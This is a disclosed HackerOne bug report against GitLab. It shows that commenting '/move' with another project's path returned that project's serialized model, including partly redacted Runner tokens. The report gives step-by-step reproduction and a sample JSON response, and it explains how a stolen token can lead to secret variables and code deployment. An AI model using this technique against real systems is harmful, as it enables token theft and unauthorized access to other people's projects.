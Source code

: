 # JSON serialization of any Project model results in all Runner tokens being exposed through Quick Actions

## Report Details
- **Report ID**: 509924
- **URL**: https://hackerone.com/reports/509924
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2019-03-14T21:23:29.177Z
- **Disclosed**: 2019-04-20T16:54:24.838Z

## Reporter
- **Username**: jobert
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gitlab

## Vulnerability Information
The Quick Actions interpreter allows an attacker to reference a Project it does not have access to. The model attributes are then being serialized and returned to the user, which results in the Runner token (both encrypted and unencrypted) being returned to the user. This vulnerability is currently exploitable on GitLab.com.

# Proof of concept
The vulnerability is relatively straightforward to reproduce.

1. Create a project
1. Create an issue
1. Write `/move <full path of any other project>` and click "Comment", a request to `/:namespace/:project/notes` is submitted
1. Observe the JSON response that is being returned, which contains the serialized Project model:

```
HTTP/1.1 200 OK
Server: nginx
...

{
  "commands_changes": {
    "target_project": {
      "id": 11104317,
      "name": "	█████",
      "path": "█████",
      "description": "",
      "created_at": "2019-03-02T01:39:34.285Z",
      "updated_at": "2019-03-02T01:39:34.285Z",
      "creator_id": 3627572,
      "namespace_id": 4717826,
      "last_activity_at": "2019-03-02T01:39:34.285Z",
      "import_url": null,
      "visibility_level": 0,
      "archived": false,
      "merge_requests_template": null,
      "star_count": 0,
      "merge_requests_rebase_enabled": false,
      "import_type": null,
      "import_source": null,
      "avatar": {
        "url": null
      },
      "approvals_before_merge": 0,
      "reset_approvals_on_push": false,
      "merge_requests_ff_only_enabled": false,
      "issues_template": null,
      "mirror": false,
      "mirror_user_id": null,
      "ci_id": null,
      "shared_runners_enabled": true,
      "runners_token": "mzssqx69THU██████████",
      "build_coverage_regex": null,
      "build_allow_git_fetch": true,
      "build_timeout": 3600,
      "mirror_trigger_builds": false,
      "public_builds": true,
      "pending_delete": false,
      "last_repository_check_failed": null,
      "last_repository_check_at": null,
      "container_registry_enabled": true,
      "only_allow_merge_if_pipeline_succeeds": false,
      "has_external_issue_tracker": false,
      "repository_storage": "nfs-file28",
      "request_access_enabled": false,
      "has_external_wiki": false,
      "repository_read_only": null,
      "lfs_enabled": true,
      "only_allow_merge_if_all_discussions_are_resolved": false,
      "repository_size_limit": null,
      "service_desk_enabled": false,
      "printing_merge_request_link_enabled": true,
      "auto_cancel_pending_pipelines": "enabled",
      "last_repository_updated_at": "2019-03-02T01:39:34.285Z",
      "ci_config_path": null,
      "disable_overriding_approvers_per_merge_request": null,
      "delete_error": null,
      "storage_version": 2,
      "resolve_outdated_diff_discussions": false,
      "remote_mirror_available_overridden": null,
      "only_mirror_protected_branches": null,
      "pull_mirror_available_overridden": null,
      "jobs_cache_index": null,
      "external_authorization_classification_label": "",
      "mirror_overwrites_diverged_branches": null,
      "external_webhook_token": null,
      "pages_https_only": true,
      "packages_enabled": true,
      "merge_requests_author_approval": null,
      "pool_repository_id": null,
      "runners_token_encrypted": "A6nIFzMXZzDdfR5iu9hq6███████████████",
      "bfg_object_map": {
        "url": null
      },
      "merge_requests_require_code_owner_approval": null,
      "import_status": "none",
      "mirror_last_update_at": null,
      "mirror_last_successful_update_at": null,
      "import_error": null,
      "import_jid": null
    }
  },
  "valid": false,
  "errors": {
    "commands_only": [
      "Commands applied"
    ]
  }
}
```

## Impact

This vulnerability gives any user who can create an Issue or comment on one the ability to obtain Runner tokens of Projects. This allows any user to register a runner for a project, which may give the attacker access to secret project variables. Given how these variables are used, this may allow an attacker to deploy arbitrary code to a victim's environment.

## Attachments
No attachments
